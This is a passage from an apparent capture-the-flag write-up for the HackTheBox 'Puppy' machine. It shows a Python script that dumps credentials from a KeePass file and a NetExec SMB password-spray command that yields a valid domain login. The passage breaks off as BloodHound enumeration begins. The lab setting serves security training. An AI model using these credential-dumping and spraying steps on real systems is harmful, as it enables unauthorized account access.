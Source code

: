 Now with this simple python script we can export the content to a human readable output:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ python3 - <<'PY'
from pykeepass import PyKeePass
kp = PyKeePass('recovery.kdbx', password='[REDACTED]')
for entry in kp.entries:
    print(f"---\nUsername: {entry.title}\nPassword: {entry.password}\nURL: {entry.url}\nNotes: {entry.notes}\n---")
PY
---
Username: JAMIE WILLIAMSON
Password: [REDACTED]
URL: puppy.htb
Notes: None
---
Username: ADAM SILVER
Password: [REDACTED]
URL: puppy.htb
Notes: None
---
Username: ANTONY C. EDWARDS
Password: [REDACTED]
URL: puppy.htb
Notes: None
---
Username: STEVE TUCKER
Password: [REDACTED]
URL: puppy.htb
Notes: None
---
Username: SAMUEL BLAKE
Password: [REDACTED]
URL: puppy.htb
Notes: None
---
```

After saving these passwords into a file to spray them, we can use `NetExec` for this:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ netexec smb puppy.htb -u 'valid-users.txt' -p 'passwords.txt' --continue-on-success
```
Finally we got a hit with `ant.edwards` !
```shell
SMB    10.10.11.70    445    DC    [+] PUPPY.HTB\ant.edwards:[REDACTED]
```

### Second Privilege Escalation: Targeting adam.silver

Let's get **BloodHound** data with the new credentials.
After ingesting new data, let's look what does this user have:
